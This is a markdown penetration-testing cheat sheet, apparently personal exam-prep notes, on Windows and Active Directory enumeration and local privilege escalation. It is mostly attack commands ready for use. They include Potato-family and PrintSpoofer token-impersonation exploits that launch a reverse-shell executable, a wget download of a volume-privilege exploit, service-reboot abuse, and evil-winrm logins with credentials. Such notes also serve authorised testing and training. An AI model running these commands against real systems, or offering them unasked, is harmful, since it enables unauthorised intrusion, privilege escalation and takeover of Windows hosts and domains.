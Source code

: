 [HackTricks - AD Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
# Initial Access
- `whoami`, `whoami /all` 
- `whoami /priv`
	- SeImpersonatePrivilege
		- Run [SweetPotato](https://github.com/CCob/SweetPotato)
			- `./sweetpotato.exe -a "C:\Users\Public\revshell.exe"`
		- [FullPowers tool](https://github.com/itm4n/FullPowers)
		- [How to use potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) & - [Pre-compiled Potatoes](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/privileges-abuse/seimpersonate/potatoes (Pre-compiled))
		- [How to use Juicy/Rogue Potato & Printspoofer](https://juggernaut-sec.com/seimpersonateprivilege/)
		- [Printspoofer - GitHub](https://github.com/itm4n/PrintSpoofer) `.\PrintSpoofer64.exe -i -c powershell.exe` `whoami`
		- [Juicy Potato - Github](https://github.com/k4sth4/Juicy-Potato/tree/main) `.\juicypotato.exe -l  -p c:\Users\tony\revshell.exe -t * -c "{9E175B9C-F52A-11D8-B9A5-505054503030}"`
	- SEbackupPriv
		- https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/windows-privesc-with-sebackupprivilege/
		- https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md
	- SeShutdownPrivilege
		- Can a startup process be modified? Then modify & reboot
		- Check service has `Auto`: `Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'httpd'}
		- Reboot: `shutdown /r /t 0`
	- [SeManageVolumePrivilege](https://github.com/xct/SeManageVolumeAbuse)
		- `wget https://github.com/CsEnox/SeManageVolumeExploit/releases/download/public/SeManageVolumeExploit.exe`
		- 
- `whoami /groups`,
	- `net localgroup` or `Get-LocalGroup` (Existing groups)
	- `Get-LocalGroupMember groupname` (Inspect)
- `systeminfo` (wiki build number)
	- Windows kernel exploits

More Initial Access
- Lockout policy: `net accounts`
- `net user` or `Get-LocalUser`
	- Look for *Remote Desktop Users* (use RDP) and *Remote Management Users* (use WinRM)
	- `net user jeffadmin /domain` (look for Domain Admins) (look for prefix/suffix accounts)
		- Login: `evil-winrm -i 192.168.xx.xxx -u user -p "password\$\!"` 
		- Escape special characters: `"password$!"` = `"password\$\!"`
- `net group /domain` (look for custom groups)
	- `net group "Sale Department" /domain`
- `winpeas`: `cp ~/Tools/Windows/winpeasx64.exe .` & `python3 -m http.server 80`
- `sc query | findstr /i servicetofind` & `sc qc servicename` 
	- Look for "Local System" and "*Log on as a batch job*" 
		- Schedule a task to execute a program
- `runas /user:backupadmin cmd` (Prompts for password)
